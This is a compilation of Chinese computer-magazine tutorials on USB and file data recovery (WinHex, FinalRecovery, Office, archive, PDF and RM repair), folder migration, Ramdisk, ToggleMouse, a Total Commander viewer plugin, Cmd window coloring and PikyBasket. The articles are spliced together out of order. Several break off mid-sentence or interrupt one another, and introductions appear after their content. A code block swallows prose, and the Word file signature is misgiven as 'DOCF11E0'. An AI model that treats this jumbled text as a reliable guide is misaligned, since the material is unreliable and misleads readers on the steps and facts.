WinHex能够方便地将选好的编码提取出来并变成文件。打开 “编辑” 菜单下的 “Copy Block” (拷贝块)，在弹出的子菜单中选择 “置入新文件” (Into New File)。现在，会弹出一个文件保存窗口，输入文件名和扩展名即可开始保存文件。然后，会出现一个保存文件的进度条。保存完毕，在保存的目录内就会出现该文件。双击即可用WinRAR软件打开。

### 第4步：使用类似的方法查找其他重要文件

实际使用过程中，我们可能还要查找其他格式的文件，比如，比较常用的Word文件。要完整地恢复Word文档，仅找到文件部分内容是不够的，我们需要找到DOC文件的开头（文件头）。用WinHex打开任意一个已知的完好的Word文件，可以看到文件的起始标志字符串为 “DOCF11E0”。使用上述方法，单击 “搜索→查找十六进制数值” 命令，搜索Word文件的起始标志 “DOCF11E0”。找到Word文件起始位置后，使用上述方法即可找到DOC文档。

相对于其他软件，WinHex的操作略显复杂，但对于特定的文件查找来说，还是很方便的。尤其是容量较小的U盘，更是得心应手，用户甚至还可以直接拷贝区块进行U盘文件备份。

## 5. 百舸争流：功能丰富的U盘恢复软件

除了上述软件，这里还介绍一些功能丰富的数据恢复软件。

### （1）FinalRecovery V2.2.5.270

软件下载地址：http://www.skycn.com/soft/12925.html。FinalRecovery也是一款比较常用的文件恢复工具，它提供了标准恢复和高级恢复模式。在标准模式下，它能够以极快的速度扫描硬盘、软盘、可移动存储设备，从而迅速恢复已经被删除的文件和文件夹。对于误格式化、病毒破坏或其他原因导致的磁盘分区丢失，也可以通过高级恢复从丢失的分区中找回重要文件。以汉化版本为例，在窗口中选择 “标准恢复” 按钮，选择待恢复的源驱动器，可以看到根目录下已被删除的文件。如果需要恢复该文件，勾选后直接单击工具栏上的 “恢复” 按钮或者从右键菜单中选择 “恢复” 命令，然后指定恢复路径，确认后就可以了。如图16所示。



### （2）数据恢复大师（DataExplore V2.762）

软件下载地址：http://www.dataexplore.net。数据恢复大师的界面比较清爽，打开软件并选择目标U盘后，即可进行快速扫描。软件最大的特点在于：能够进行个性化的数据恢复，包括：删除的恢复和目录文件丢失的恢复，格式化的恢复，重新分区的恢复和丢失分区的恢复，Ghost的恢复等。这些恢复方式具有一定的针对性，基本涵盖了数据丢失的几种常用情况。值得一提的是，软件支持FAT12、FAT16、FAT32、NTFS、EXT2等多种文件系统。扫描完毕，界面中会列出丢失的文件、已删除的文件，并通过目录的形式排列出来。确定数据丢失的大致原因后，选择待恢复的U盘，即可进行修复操作。此外，软件还提供了丰富的视图和高级设置功能。美中不足的是，该软件为共享版，数据恢复功能尚未完全对外开放。如图17所示。

### （3）Easy Photo Recovery V2.4

软件下载地址：http://www.easyphotorecovery.com。Easy Photo Recovery的特点在于：专门针对多媒体类型文件进行优化，尤其支持数码图片，并对移动U盘、数码存储卡、Compact Flash、SD、MMC、记忆棒等存储设备都提供了很好的支持。安装软件并运行，软件将以向导的方式轻松完成数据恢复的全过程。用户还可以通过选择需要恢复的图片文件类型、设置文件创建时间、文件大小范围等条件进行筛选。如图18所示。

## 三、完美出击：U盘中断路的文件修复技巧

使用专业软件恢复文件时，还有部分文件不能完全恢复。比如，打开某个被恢复的重要文件时，往往会提示：“文件无法打开”。这时，就需要针对专门的单个文件进行恢复。

### 1. Office文档恢复

Office办公软件使用的频率很高，但出现问题的频率也很高。在修复U盘文件之前，可以尝试一些常用的小技巧，也许就很容易解决问题了。一般来说，Office文档的修复方法有：

- **自动恢复**
在使用Office软件（如Microsoft Word）的过程中，如果突然出现蓝屏或是断电，重启运行软件后会发现一个“文档恢复”工具栏。此时，打开文件另存一下即可，此技巧对于Excel、PowerPoint同样适用。如果没有见到自动恢复窗口，可以打开断电前文件所在文件夹。以Microsoft Word 2003操作为例，首先打开“控制面板”，打开“工具”菜单下的“文件夹选项”，设置“查看”下的“显示所有文件和文件夹”。然后，找到一些以“~”开头的隐藏文件，把它们按日期排列，试着用Word逐一打开最近的文件即可恢复。一般来说，Office中的“自动恢复”选项设置了自动保存的时间。

- **打开文件时恢复**
在Office程序中，单击“文件”菜单下的“打开”对话框，选中一个文件，单击“打开”按钮旁边的下拉箭头，再选择“打开并修复”也可以修复选中的文档并再打开。

> **删除格式信息法。** 在Word文档中，最后一个段落符号记录着全篇文档的格式信息，有时删除这些格式信息就可以恢复变成乱码的文件。首先，打开损坏的文档后，单击“工具/选项”菜单，选择“编辑”标签，取消对“使用智能段落选择范围”复选框的勾选，根据提示按钮进行修复操作。选定最后一个段落符之外的全部内容，然后将这些内容粘贴复制到新的Word文件中即可。

- **使用Office工具恢复**
如果Office程序不响应，且无法关闭，可以选择“Microsoft Office工具”中的“Microsoft Office应用程序恢复”，从中选择相应的程序，再单击“恢复应用程序”，往往可以达到意想不到的修复效果。

- **使用专业Office恢复工具**
如果使用上述技巧仍然不能达到比较满意的修补效果，可以使用一些智能化的“秘密武器”来修复。OfficeFIX就是一款优秀的Microsoft Office修复工具，它包括3个软件：ExcelFIX、WordFIX和AccessFIX，软件提供了一个集成界面，使用操作十分方便。其中，WordFIX是针对各种版本Microsoft Word而设计的修复工具，能从损坏或丢失数据的Word文件中恢复文本、目录、基本格式以及表格数据。该软件修复文件的过程如下：
  - 第1步：启动WordFIX，在主界面中单击“Start”按钮，打开文件选择对话框，单击“Select file”按钮，选择要修复的文件。
  - 第2步：选择要修复的模式。在“Recovery mode”栏中有3种模式：Recover MS Word data、Recover text data和Extract images from the file，本例中使用默认的模式即可。单击“Recover”按钮开始修复。
  - 第3步：修复完毕后，单击“Go to save”按钮，弹出保存文件窗口。在“Name and path for the recovered file”栏中显示的是修复之后文件所保存的路径及文件名。在“Output file format”栏中可以选择要保存的文件格式，设置完毕，单击“Save”按钮。单击窗口中的“Open”按钮，打开修复后的文件，在这里可以查看修复后的效果如何。

再以Excel文件的修复为例，Concept Data公司提供了一个专门用于修复Excel损坏文件的修复工具——ExcelRecovery，能够对Excel文件进行恢复处理。软件下载地址为：http://www.skycn.com/soft/7432.html。软件安装后，可以自动将Excel的修复程序加在Excel应用程序中，在“文件”菜单下多出一项“Recovery”选项，若有损坏的文件，可用该选项进行修复。

### 2. 压缩文件的修复

为了节省硬盘空间，我们一般都会将数据进行压缩处理。但是，由于各种原因，会造成压缩文件的损坏，解压时就会出现错误提示。遇到这种情况，不要急于删掉该文件，比如WinRAR内置的压缩文件修复功能对于一些受损的压缩文件可以起到妙手回春的功效。

- **方法一：使用WinRAR内置的压缩文件修复功能**
首先，启动WinRAR压缩软件，单击“文件”菜单下的“打开压缩文件”命令，将损坏的压缩文件添加进来。然后，单击“工具”菜单下的“修复压缩文件”命令，弹出修复对话框，这个窗口中有两个项目，一个是选择修复后文件的保存路径；另一个是选择所要修复的压缩文件的类型，如RAR或ZIP格式，本例中我们选择RAR格式。单击“确定”按钮，就可以开始进行修复了，同时还会以对话框的形式显示修复的全过程。操作完毕，进入设定的修复文件存放目录，会发现该目录下增加了一个压缩文件。试着对它进行解压缩，如果一切正常，那么受损的压缩文件已经修复了。

- **方法二：使用工具软件进行文件修复**
“ZIP文件修复大师”是一款优秀的压缩软件修复工具。在修复自解压文件过程中，“ZIP文件修复大师”可以对受损文件进行多重扫描和分析，然后利用内嵌的自解压EXE文件头来修复不正确的循环冗余校验值，从而最大限度地恢复ZIP文件的受损数据。软件下载地址为：http://www.skycn.com/soft/7177.html。使用方法如下：首先，在修复受损的文件之前，要先对软件的参数进行设置，这样才能达到最佳的修复效果。在软件的界面中单击“参数设置”标签。这里包括5个复选框，我们可以勾选第1项、第2项和第4项。参数设置好后，切换到“修复”标签，添加要修复的文件，在“输入修复后的文件名”右边的文本框中就自动出现了修复后文件名及保存路径，当然我们也可以单击右边的按钮，来改变文件名及保存路径。最后，单击“开始修复”就可以了。

- **方法三：小技巧解决CRC文件压缩错误**
在修复压缩文件的过程中，常见的错误是WinZip在解压时提示某个文件CRC错误，如果是在解压到95%或更多时提示错误的，基本还是可使用的。方法如下：在出现WinZip的窗口后，选择经典模式，然后用Ctrl和鼠标键选取除出错外的所有文件，将这些文件解压到一个指定目录。接下来选择出错文件并进行解压，当解到98%时错误信息再次出现，并询问是否要查看日志文件。这时，先不管这个错误提示，用Windows的查找功能在系统临时文件夹中找到这个出错文件，选择后复制到刚才的文件夹中，最后关闭WinZip。这样，问题就很容易解决了。

### 3. PDF文件的修复

PDF文件具有很多优点，因而也得到了广泛运用。这里重点介绍Advanced PDF Repair。这是一款强大的PDF恢复工具。它可以扫描受损的Acrobat PDF文件，并把数据尽可能从那些文档中恢复出来，它支持恢复Acrobat PDF文件的所有版本；支持在PDF中恢复页面及页面上的图片；支持修复不同PDF文件的格式错误；支持修复不按PDF规格制作出来的PDF文件；支持从损坏的软盘、Zip盘、光盘中修复PDF文件；支持批量恢复PDF文档可以集成在Windows资源管理器中等。软件下载地址为：http://www.skycn.com/soft/25890.html。使用方法如下：首先，在修复受损的文件之前设置参数。在软件的界面中单击“选项”标签，选择匹配的或者最新的PDF版本。然后，切换到“修复”标签，在“选择要修复的PDF文件”文本框后添加要修复的文件；同时设置输出修复后的文件。最后单击“开始修复”按钮就可以开始修复了。

### 4. 音视频文件的修复方法

现在，下载电影已经成为很多网友冲浪活动中必不可少的一部分。但是，影音文件损坏的现象也十分常见：有的文件下载到99%就失败了，有的影音文件无法拖动播放时间条，有的文件则干脆不能打开。其实，通过一些小技巧或者修复软件的配合，这些问题都能很快得到解决。对于RM、WMV、ASF、WMV等格式的视频文件，可以选择支持修复多种视频文件的ASF-AVI-RM-WMV Repair来修复；对于使用十分广泛的RM文件，则可以使用专门的RM修复工具软件RealMedia Analyzer；对于ASF、WMV文件，则可使用工具软件AsfTools修复。

修复影音文件之前，需要注意以下事项：
  - （1）建议先对文件进行备份，修复时以备份的文件为目标进行修复，避免修复失败后无法挽救。
  - （2）对影音文件进行修复处理和存储时，会产生缓存文件并占用一定的空间，因此必须确保系统上的可用空间足够大。
  - （3）对于文件头信息或索引出问题的视频文件，如果愿意花费时间对视频文件重新进行编码，基本上都可以解决问题。如果视频光盘或者视频文件损坏严重，视频播放到特定的位置被卡住，则需要先对视频文件进行编辑。将无法正常播放和编辑的部分剪掉，然后再重新编码使文件能够正常地播放。

以RM电影的修复为例。RM格式的视频文件在网络上最为流行，可是出现的问题也最多。其中，比较常见的现象是无法拖动播放时间条，看了一半的电影如果出现意外，再看时必须得从头开始。下面，使用两个比较专业的工具进行文件修复。

- **（1）使用“RM电影文件修复专家”**
这款软件能够重新组建RM文件结构，彻底修复RM文件内部故障，并且修复速度很快，修复率可以达到95%以上。软件下载地址为：http://www.skycn.com/soft/17065.html。软件可修复的文件类型包括rm、rmvb、ram、ra、rv、rf、rt和rp。修复过程如下：启动“RM电影文件修复专家”，然后选择要修复的RM文件。单击“开始修复”按钮。为了防止意外，修复前可选中“修复时备份原RM文件”选项，不过这样修复的时间可能要长一些。修复完成后，软件会询问是否播放，确认后就可以观看到修复后的RM文件了。

- **（2）使用“Real文件修复器”**
由于种种原因，下载的Real文件经常会有无法拖放、快进，甚至出现文件残缺的现象发生，导致辛辛苦苦下载的影片或歌曲不能顺利播放。这时，不妨使用一款实用软件——Real文件修复器来修复这些文件。软件下载地址为：http://www.skycn.com/soft/3591.html。使用方法如下：首先，安装并运行“Real文件修复器”：首先，按下“添加一批文件”按钮，将要修复的一个或多个Real文件添加到列表中。然后，点击“修复选择文件”按钮来修复文件，如果只是用鼠标单击某个文件，使其成为焦点，则这个文件属于“选定”文件，可以直接点击“修复选定文件”按钮，对其进行修复。当然，也可以按下“修复所有文件”来对添加到列表中的所有文件进行修复。经过快速修复，待弹出“修复完毕”的窗口，便可以在主界面按下“播放修复后文件”按钮来查看修复的效果。

当然，这里只是列举了比较典型的RM格式，在修复视频文件的过程中，根据文件损坏的具体情况以及文件类型的不同，还需要采取不同的方法或者选择不同的工具软件。一般来说，通用的视频文件修复软件可以支持更多的文件类型；而专用的修复工具软件则针对性比较强，更适合那些对视频文件相关技术要求较高的用户使用。可以根据该文件类型的特点做出详细的修复设置，从而获得更理想的修复效果。

总之，通过整体修复和单个修复的讲解，我们对文件恢复和修复技术有了一个比较全面的了解。实际使用过程中，最重要的是寻找有针对性的修复方法和修复工具，多种修复手段结合，从而有效恢复U盘中的重要数据。当然，恢复和修复的过程还是带有“亡羊补牢”的味道，在保护数据的过程中，还是应该加强数据安全备份，“未雨绸缪”以“防范于未然”。这样，我们就可以在电脑操作的过程中更加应用自如了。

## 新系统咱们是“完人”——“个人文档转移设置工具”

◆文/TMG dzr

## 一、下载与安装个人资料转移设置工具

首先，需要把“个人资料转移设置工具”下载到个人电脑上，下载地址为：http://download.cpcw.com/soft/248/248825.html，该版本为1.1.7.0版本。下载完成后，解压缩文件，由于是一款绿色软件，直接双击systemset.exe应用程序即可开始正常使用该软件。

## 二、将个人资料“乾坤大挪移”

软件已经安装好了，下面我们就逐一介绍该软件的强大功能以及操作方法。

### 1. 个人资料转移

- （1）“文档数据”设置
首先进入软件主界面的“文档数据”标签页，在“文档数据”下可以看到“我的文档”、“收藏夹”、“Cookies”和“桌面文件”等文件夹在系统中的默认地址，选中欲转移文件夹前面的复选框（默认状态下已经全部选中，不想转移的可以去掉勾选）。

- （2）“转移选项”设置
在“转移选项”下勾选“更改目录”和“转移文档数据”项，后面的地址文本框内的默认转移文档地址为D:\Personal文件夹，当然也可以自行设置要转移到的目标文件夹地址，如果转移的目的分区内没有该文件夹，软件会自行创建。

- （3）临时文件
前面都设置好后，单击“开始转移”按钮，你选定的文件夹就开始被转移了，转移过程中在界面右下角会有相应的文字提示。同样的方法也可以转移一些诸如“临时目录”、“IE缓存”、“历史记录”、“最近文档”等临时文件，设置方法相同，通过单击界面右下角的“一键转移”按钮，可以实现对文档数据和临时文件的同时转移，非常方便。

- （4）转移后重启
转移完成后需要重新启动操作系统，在界面左下角该软件还很人性化地设计了“注销”、“重启”和“关机”按钮，可以在此单击“重启”按钮，重新启动操作系统后在目标分区内就可以看到并正常使用上述转移的文件夹了。

### 2. “还原选项”功能

- （1）个人资料还原
有朋友要问，重装系统后，我想把之前转移到其他分区的个人资料再还原到系统分区可以吗？当然可以。重装系统后进入该软件，单击“还原选项”标签页，选择你要恢复的文档数据和临时文件，默认为全部勾选对号，单击“恢复默认值”就可以将之前转移到目标分区的文档还原到系统默认的位置，也就是系统分区了。

- （2）转移虚拟内存
此外，该软件还可以转移虚拟内存到其他分区，在“还原选项”标签页的最下方，可以设置虚拟内存到D盘（当然也可以是其他非系统分区），同时可以自定义虚拟内存的大小，一般应设置为物理内存的1.5至2倍，然后单击“立即执行”按钮，重启系统后即可生效。

- （3）设置用户名密码及自动登录
在“还原选项”标签页的上方还可以设置用户名密码，以及设置自动登录，当然不设置也不会影响到使用。

### 3. 其他实用功能介绍

个人文档转移设置工具除具有上述功能外，还设计了一些不错的实用功能。

- （1）设置分辨率
在“分辨率，系统清理”标签页上方，可根据自身显示器情况设置分辨率，在相应复选框内勾选即可，如设置不当后出现黑屏，可按F7快速降低分辨率。

- （2）系统清理
值得一提的是该软件还具有系统清理功能，在“分辨率，系统清理”标签页下方选择勾选“垃圾文件、临时文件”、“清理Cookies”、“U盘病毒免疫”、“清理多余的桌面右键菜单”、“清除autorun.inf”、“程序，安全性，系统日志”等复选框，默认为全选，然后单击“清理系统垃圾”按钮即可。

- （3）其他按钮功能
在“分辨率，系统清理”标签页下，除了前面就出现过的“注销”、“重启”、“关机”按钮以外，软件还设计了开启和关闭小键盘以及退出程序的按钮，你可以按需操作，十分方便。

- （4）设置网络地址
在“共享设置”标签页上方，你可以自己输入网络地址或者单击“自动获取IP和DNS”按钮自动获取地址。

- （5）设置局域网共享方式
在“共享设置”标签页下方，你可以根据个人需要设置局域网共享方式为“免密码直接访问”、“经典方式”或是“来宾模式”，也可以关闭局域网共享。

一些朋友在重新安装操作系统后都会遇到一个很囧，也很苦恼的事情——某些重要的个人资料随着系统的重装丢失了。这是怎么回事呢？原来这些资料都是保存在“我的文档”、“收藏夹”等存在于C盘目录下的文件夹，而随着重装系统，系统分区C盘被格式化，最终造成个人资料的丢失。许多有经验的朋友为了避免重装系统时造成个人数据的丢失，会事先把“我的文档”、“收藏夹”等保存个人文档资料的文件夹转移到非系统分区；另外，为了尽量减少对系统盘的读写和垃圾的产生，往往也会把诸如IE临时文件夹、Cookies、虚拟内存等转移到系统分区以外的其他分区。

但如果你是一个超级菜鸟，对这些文件的地址不熟悉，不会设置转移怎么办呢？不要紧，有一款名为“个人资料转移设置工具”的免费绿色软件可以来帮你轻松完成。该软件功能强大、操作简便、界面良好，可以轻松转移硬盘中记录个人信息的文件夹或者虚拟内存的位置，受到了众多网友的好评。下面就让我们一起来学习个人资料转移设置工具的使用吧！

## 虚拟光驱不是特效——闪存照样玩虚拟

有时候我们不得不使用移动存储设备来存储一些数据。以笔者为例，由于最近电脑操作系统经常出现不稳定的情况，笔者打算为自己的电脑重装系统，为此必须先将自己经常使用的网络银行数字证书进行备份。但是在笔者进行备份时，系统却提示必须使用移动存储设备。然而笔者手中恰恰没有移动存储设备，这该怎么办呢？

查询得知，网络银行只能识别系统里的“可移动磁盘”或“软盘驱动器”。笔者手里没有闪存，但是又不愿意专门为此去购买一个闪存。好在笔者电脑中安装了Ramdisk软件，使用它可以将一部分物理内存虚拟成为移动磁盘，从而实现数字证书的备份。那么究竟如何操作呢？

### 一、Ramdisk简介及软件下载

Ramdisk也就是内存盘的意思。所谓的RAM驱动器，实际上是把电脑系统内存划出一部分当作虚拟的移动存储设备或硬盘来使用。对于操作系统来说，内存的存取速度远远大于机械硬盘，所以RAM驱动器要比机械的硬盘快得多。

这里笔者推荐Ramdisk汉化版1.1，下载地址是http://dl-sh-ocn-1.pchome.net/1d/5d/Ramdisk.rar。该软件无须安装，下载后解压，直接双击打开Ramdisk.exe文件即可进入软件主界面。下面我们一起了解虚拟闪存的使用方法。

### 二、Ramdisk虚拟内存步骤及应用

首先，双击Ramdisk.exe文件打开软件主界面（如图），可以看到该界面十分简单。



单击主界面右侧上方的“安装内存盘”按钮，软件会按照默认的设置自动生成内存盘。安装过程进行时软件界面，这时我们发现只有“取消”按钮可以选用。

安装完成后的软件界面如图所示，可以发现除了“安装内存盘”按钮，其他按钮都是可用的。这时我们可以根据自己的需要对安装的内存盘进行设置。设置非常简单，仅包括磁盘大小、盘符、磁盘类型3个选项。

第一步：设置磁盘大小。软件界面上的“选择磁盘大小”的下拉列表框中列出了一些可选数值，我们也可以根据自己的需要填写。数值的大小完全取决于你的电脑的内存多少，但最好不要超过可用内存的1/2。作为示例，这里设置为16MB。

第二步：选择盘符。盘符可根据自己的爱好选择，只要是尚未使用的盘符就可以。

第三步：选择磁盘类型。这里有三种类型可以选择，这里我们选择“可移动磁盘”。设置完成后单击主界面左下方的“确定”按钮完成设置。这时软件会按照我们的设置要求对内存盘进行处理，处理完成后会弹出确认对话框，单击“确定”即可。

这时打开资源管理器，就会发现多了一个盘符S（当然，你也可以选择其他盘符）。

右击S盘符查看内存盘属性，发现该盘的类型为“可移动磁盘”。到这里，一个虚拟的“可移动磁盘”就“制作”好了。我们可以像使用普通移动设备一样对虚拟移动磁盘进行操作。例如笔者在进行网络银行的数字证书备份时，将备份分区设置为S盘，就可以正常的备份了。

### 三、虚拟内存盘数据保存

需要特别提示的是，由于Ramdisk是将物理内存进行虚拟使用，因而重启系统后虚拟盘中的数据会丢失，为此我们需要将值得保存的数据拷贝到本地硬盘。利用“Ramdisk汉化版1.1”提供的“载入映像”和“保存映像”功能，我们也可以实现虚拟盘中数据的自动保存，操作步骤如下。

单击软件界面右下方的“保存映像”按钮，会弹出“另存为”对话框。

设置好文件名及保存位置后单击对话框上的“保存”按钮即可保存虚拟盘的映像文件，保存成功会弹出确认对话框。在需要使用以往保存过的数据时，选择软件主界面上的“载入映像”命令，会弹出“打开”对话框，选择保存过的映像文件即可打开，这时软件会弹出打开成功的对话框，单击“确认”即可。

### 四、Ramdisk虚拟盘的其他应用

如在本文前面部分提到的，Ramdisk虚拟盘是将内存的一部分当作虚拟的移动存储设备或硬盘来使用，因而对于Ramdisk虚拟盘的数据存取要比机械的硬盘快得多，其速度最多可以达到7200转硬盘速度的35倍。除了上述可作为虚拟移动闪存使用之外，这些虚拟的超高速盘可是用处多多，下面就为大家推荐几种方案：

- 1. 加速网页浏览（大约只要50MB~100MB的内存）
打开IE，依次选择“工具→Internet选项→常规→浏览历

我们使用电脑，经常和鼠标、键盘打交道，特别是鼠标，绝大多数的工作都要它来完成。如果能提高鼠标的工作效率，那么我们一定会轻松不少。今天我给大家介绍一个好帮手——ToggleMouse，它可以使鼠标的工作事半功倍。下面就来看看它究竟有哪些应用。

## 让鼠标工作事半功倍

### 一、ToggleMouse安装及设置

从http://www.skycn.com/soft/3816.html下载ToggleMouse，并安装。初次运行，根据提示进行设置（如图1），然后一路单击“NEXT”，完成设置后，程序就会自动最小化到系统托盘内。



### 二、ToggleMouse的基本应用

运行程序ToggleMouse，在其主界面我们会看到很多选项卡，对其进行合理的设置可以大大简化我们的鼠标操作。单击“经济点击”选项卡（如图2），在这里，我们可通过设置来达到用单击来代替双击，比如，勾选“单击打开桌面项目”，再单击“确定”。这时你试试看，单击桌面任何一个快捷方式，程序是不是打开了？



### 三、ToggleMouse的高级应用

我们知道，为了迎合游戏玩家的需要，现在市场上出现了一种游戏鼠标，如双飞燕X-750FV等。双飞燕X-750FV可以说是一款CS专用鼠标，它有一个连发条形火力键，在玩CS时，按下此键一次，枪械可以连续发射子弹，但是这种鼠标太贵了，下面我们把一个普通鼠标打造成一个游戏鼠标，菜鸟也能轻松体验爆头的乐趣。

先点击“按键”选项卡，再点击“添加”按钮，在“操作向导”窗口选中“双击鼠标左键”选项如（图3），点击“下一步”进入“快捷方式类型”窗口，选中“点击鼠标按键时”，点击“下一步”进入“鼠标”窗口，在“按键”下拉框内设置好相应的快捷键（如图4），再单击“下一步”，就设置好了。





在图4的对话框中建议选择“Ctrl+鼠标左键”作为“鼠标双击”的快捷键，因为在玩CS时，遇到敌人按住“Ctrl”键不松手，点击鼠标左键，打击敌人比较方便。这时，子弹的发射速度比原来快了一半，在中远距离作战中优势特别明显。

- **小提示**
1. 普通的两键鼠标无法实现单键激活的功能，必须进行搭配组合，而具备多个按键的鼠标可以实现单键激活。
2. 在图3所示的窗口中，有很多实用的功能，可以自己选择适当的操作，并为其设置好快捷键。

### 2. 加速下载（需留意档案大小是否超过虚拟内存）

用宽带的人越来越多，虽然下载的速度还远远没有达到现在主流硬盘的速度，不过适当的调整还是可以让你事倍功半。以FlashGet为例，打开FlashGet，依次选择“工具→选项→任务默认属性”，可以给每种类型的文件设置保存到的位置，只要在这里设置到我们虚拟的分区里就可以了，这样下载完成之后再统一转移到其他分区里。除了速度明显提高之外，

### 3. 让游戏流畅及加速

将游戏整个安装到虚拟硬盘上（内存3GB以上者适用）。不管是在线游戏或是单机游戏，皆可安装到虚拟硬盘上，在装完之后，记得重开机，让虚拟硬盘把数据保存到真实的硬盘上，如此，游戏将会流畅无比。

### 4. 其他

可以将许多需要使用到硬盘当暂存装置的软件，将暂存目录设定至虚拟硬盘上，除可以减少硬盘负担外，处理速度也可以增加。例如将Nero的“暂存设定”移至虚拟硬盘上，再刻录文件就会更加流畅。

Total Commander(TC)是很多朋友用来替代资源管理器的第三方文件管理工具，官方网站提供了功能丰富的各式插件，其站点地址是http://www.ghisler.com/plugins.htm。笔者特别喜爱的是其中的“List extensions”插件，安装相关的查看程序插件之后，我们可以在TC中按下F3功能键查看DOC、XLS、PDF、DWG、SWF、DBF等多种格式的文档，但完成这些插件的下载、安装和配置，却也是一桩麻烦的事情，有没有更简单的办法呢？

这里，我们推荐一款名为TxQuickView的查看程序插件，安装后可以查看众多格式的文档，方便又省力。

## 看遍文档无敌手：提高TC预览文档的能力

◆文/王志军

### 一、让TxQuickView进驻TC

按照前面的介绍，打开IE浏览器访问http://www.speedproject.de/enu/txquickview/index.html，将TxQuickView的安装文件下载回来。

运行TC，直接双击运行TxQuickView.zip，此时会弹出提示对话框，两次确认之后即可完成安装。不过，如果系统中已经安装了功能类似的查看程序插件，那么请依次打开“配置→插件→查看程序插件”对话框，单击右侧的“配置按钮”，此时会打开“查看程序插件”的对话框，将TxQuickView.wlx的位置调整至最前端，以后按下F3功能键即可预览相应格式的文档。



### 二、领略TxQuickView的文件类型支持

有了TxQuickView这款查看程序插件，我们几乎可以预览所有格式的各类文件，包括图像、歌曲、视频、文本、网页、Office，甚至还可以查看EXE、OCX、DLL、Font的信息，下面是TxQuickView所支持的文件类型：

- 1. 图像文件
TxQuickView支持几乎所有格式的图像文件，除了最常见的BMP、GIF、JPG、PNG、TIFF等格式之外，一些名不见经传的图像格式同样获得了支持，总数高达69种。

- 2. 多媒体文件
支持几乎所有主流格式的多媒体文件，包括CDA、ASF、AVI、WAV、WMA、WMV、MP3、VOB、SWF、MOV、QT、RM，总共包括37种。不过，对于SWF、MOV/QT、RM等格式的多媒体文件，需要系统中已安装WMP9、QuickTime、RealPlayer，或者安装了相应的解码包。

- 3. 文档
支持DFM (Delphi forms)、HTM、HTML、RIF、WRI、Text、PDF等7种类型，但对于PDF格式的文档，只能在IE中打开后进行查看。在安装Office 2003/2007之后，可以直接预览DOC、WK1、WK3、WK4、WPS (不是WPS Office)、XLS格式的Office文档，而不需要分别安装OfficeView、Excellence两款插件，预览时请单击工具栏上的“Word Wrap”按钮实现自动换行，效果如图1所示，应当说还是相当实用的。

- 4. 程序文件
支持查看EXE、DLL、OBJ、LIB、DBG、SYS、CPL、DRV、OCX、AX、BPL、EXP等文件。

- 5. 字体文件
对于TIF、FON格式的字体文件，安装插件之后按下F3功能键同样可以直接预览，选择“c:\Windows\Fonts\”路径下的某个字体文件即可实现预览。

### 三、为TC增加预览“.docx”的功能

相信很多朋友都有这样的体会，即使你已经安装了OfficeView、Excellence两款官方插件，但当我们按下F3键时，很多时候依然无法正常查看.doc、.xls格式的文档，其中的原因多种多样，但主要是系统中缺乏必要的转换器文件，或者是插件的调用次序不正确，配置起来颇有难度。

相对来说，TxQuickView的使用非常简单，只要系统中已经安装了Office 2003/2007，选中*.doc文档之后按下F3功能键就可以正常预览。不过，默认设置下我们仍然无法预览“*.docx”的Word 2007文档，这是TxQuickView没有注册该文件类型的原因，我们可以按照下面的步骤进行设置：

选中需要预览的“.docx”文档，按下F3功能键，此时当然是不会正确显示其中的内容，不过只要我们单击工具栏最左侧的“Viewer”按钮，从下拉菜单中选择“Text”，即可预览到效果。

但是，如果每次都这样手工更改查看模式的话，确实也太麻烦了一些，其实我们可以为TxQuickView注册“docx”的文件类型，这样就不需要手工切换查看模式了。仍旧单

## 给Cmd命令行工具穿彩衣

◆文/啄木鸟

虽然说现在已进入Vista时代，但我们还是常常要用到DOS命令，因此Windows XP/Vista都一直保留着Cmd命令行工具，不过整天面对着Cmd命令行工具那张“黑脸”，着实让人感到不爽。想不想给Cmd命令行工具穿上彩衣，让其界面漂亮一些？下面我们就不借助任何外来工具，手工打造个性的Cmd命令行工具吧。

第一步：打开记事本，输入以下内容：

```
@echo off
echo Microsoft Windows XP
echo 欢迎来到阿苗之家工作室!!!
echo 今天是%date%
echo 现在已经是%time%
title 阿苗之家Cmd命令行工具，给你无限精彩!!!
color 9F
@echo on
最后另存为“*.Cmd”，如“Color.Cmd”，保存到系统目录下，如C:\Windows。
```

> 小提示
1. 在“Color.Cmd”文件中，echo命令后边的文字是提示信息，大家可以根据自己的需要灵活修改，比如可以加上自己女友或者家人的名字和其它一些个性化的文字，从而让自己的Cmd命令行工具界面显得更酷！
2. 文件中9F则是设置Cmd窗口的背景颜色和前景色（即字体颜色），其中，前一个数字或字母为背景色，后一个数字或者字母为前景色。下面是一些颜色对应的数字或字母：0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白。



第二步：在开始菜单中运行“regedit”打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor]项，右击该项下的“AutoRun”这个字符串值，选择“修改”，将其修改为“%systemroot%\Color.Cmd”(不含引号，如图1)，最后单击“确定”并保存注册表。

现在试试看，在开始菜单中运行Cmd命令看看效果吧，如图2，是不是很酷？



可能有的朋友想改变Cmd命令行工具的默认目录，如C:\，右击上边所说的“Color.Cmd”文件，选择“编辑”，在文件末尾添加以下内容：
prompt C:\n最后保存，再重新运行Cmd命令，Cmd命令行工具的默认目录就变成C:\了。

> 小提示
改变Cmd命令行工具默认目录的语句格式为：prompt 目录名称

### 四、写在最后的话

看了上面的介绍，相信朋友们对于TxQuickView插件的功能已经有了足够的认识，事实上，安装TxQuickView这款查看程序插件之后，我们甚至可以不再考虑安装其它的查看程序插件，因为完全可以代劳。

当然，如果你实在偏爱某些查看程序插件，可以将它的位置调整至最前端，那么就可以两者兼得，感兴趣的朋友不妨一试。

说起文件复制，朋友们自然不会陌生，资源管理器早已提供了“复制/粘贴”的功能，或者也可以利用TC（Total Commander）等双窗格文件管理器进行，不过如果需要将多个路径的文件复制到同一文件夹，恐怕就不是那么简单的事情了……

## 利用PikyBasket 复制不同位置的文件

◆文/王志军

除了逐个手工复制之外，我们还可以选择PikyBasket来完成，这个复制工具可以被看作是一个文件篮子，我们首先将需要复制的文件分别放到这个篮子中，然后就可以一次性将篮子中的文件快速复制至目标文件夹，这自然是方便不少。目前，PikyBasket的最新版本是3.0；官方下载页面为 http://www.conceptworld.com/download.asp，完成安装之后会在系统右键菜单中生成相应的菜单命令。

## 一、利用右键菜单复制文件

虽然PikyBasket是全英文版本，但操作并不复杂，复制多个不同位置的文件，可以按照下面的步骤操作即可：

- 第1步：选择文件
